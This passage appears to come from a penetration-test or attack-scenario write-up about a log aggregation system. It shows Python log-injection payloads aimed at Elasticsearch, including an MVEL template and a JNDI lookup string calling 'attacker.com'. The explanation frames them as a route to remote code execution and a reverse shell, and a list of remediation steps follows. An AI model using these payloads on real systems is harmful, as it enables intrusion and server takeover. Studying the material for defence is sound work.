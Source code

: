 ```python
#log_payload = '{"type":"log", "message": "{{#mvel code=\"System.getProperty(\\"java.io.tmpdir\\");\"}}", "host":"test.example.com"}'
# Example: Log injection payload (attempt to trigger a vulnerability, might not work without specific plugin installed, such as Logstash)
log_payload = "Attempting to trigger a parsing bug: %{{jndi:ldap://attacker.com/exploit}}%" # Requires JNDI lookup to be allowed which is usually disabled.

exploit_elasticsearch(log_payload)
```

*   **Explanation:**  This Python script simulates injecting a log message into Elasticsearch. The `exploit_elasticsearch` function sends a POST request to the Elasticsearch API to add a new document to the specified index.  The `log_payload` variable contains the malicious log message.  The example shows a potential RCE using MVEL (deprecated in newer versions of ES), and another potential exploit using JNDI lookup.
*   **Why:** To attempt Remote Code Execution (RCE) or trigger other vulnerabilities through carefully crafted log messages.  This depends on Elasticsearch's configuration and enabled plugins.
*   **Expected Output:**
    *   Successful log injection message and a 201 status code from Elasticsearch.
    *   If successful, potentially, the command execution from the Groovy script or JNDI callback will occur on the Elasticsearch server (this is highly dependent on the ES configuration).  You will see evidence of this activity on the attacker's controlled server (e.g., a reverse shell or a DNS query). If it doesn't work, you would need to alter the payload depending on the logging system being used.
*   **Contribution:** Escalates the compromise from data leakage to potential full system control.
*   **Alternative:** Use different payloads depending on the target Elasticsearch version and known vulnerabilities.

**Remediation Recommendations:**

*   **Enable Authentication and Authorization:**  Require strong authentication for all access to the log aggregation system. Use roles-based access control (RBAC) to restrict access to only the necessary data and operations.  Disable anonymous access.
*   **Secure Communication:** Use TLS/SSL to encrypt all communication with the log aggregation system.
*   **Regular Security Audits:** Conduct regular security audits of the log aggregation system and its configuration to identify and address vulnerabilities.
*   **Software Updates:** Keep the log aggregation software and its dependencies up to date with the latest security patches.
*   **Input Validation and Sanitization:** Implement robust input validation and sanitization to prevent log injection attacks.  Limit the types of data that can be logged and enforce strict formatting rules.  Disable features like Groovy scripting or JNDI lookups if they are not required.
*   **Network Segmentation:**  Segment the network to isolate the log aggregation system from other critical infrastructure.
*   **Least Privilege Principle:**  Grant only the minimum necessary privileges to users and applications accessing the log aggregation system.
*   **Monitor Logs:**  Monitor the logs of the log aggregation system for suspicious activity. Implement alerting for unauthorized access attempts, failed authentication attempts, and unusual query patterns.
*   **Data Masking and Redaction:**  Implement data masking and redaction to protect sensitive data in the logs.  Remove or obfuscate sensitive information before it is stored in the log aggregation system.
*   **Secure Kubernetes Configuration:** Review and harden the Kubernetes cluster configuration to prevent unauthorized access to pods and services. Limit the capabilities of pods that log to the aggregation system.
*   **Implement security policies:** Review and implement AppArmor and Seccomp profiles for pods.
*   **Incident Response Plan:** Develop and maintain an incident response plan for responding to a log aggregation system compromise.
